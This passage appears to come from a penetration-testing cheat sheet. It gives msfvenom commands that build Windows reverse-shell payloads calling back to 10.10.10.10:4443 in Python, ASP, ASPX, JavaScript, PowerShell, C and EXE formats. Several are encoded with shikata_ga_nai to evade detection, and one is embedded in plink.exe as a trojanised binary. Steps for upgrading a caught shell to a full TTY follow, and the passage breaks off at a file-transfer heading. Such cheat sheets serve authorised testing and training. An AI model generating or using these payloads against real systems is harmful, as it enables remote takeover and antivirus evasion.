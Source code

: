 ```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

# Windows ASP reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp

# Windows ASPX reverse shell
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx

# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18

# Windows Powershell reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

# Windows reverse shell embedded into plink  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

Interactive Shell
-----------------

Upgrading to a fully interactive TTY using Python


# Enter while in reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

File Transfers
--------------

**HTTP**

The most common file transfer method.


# In Kali
```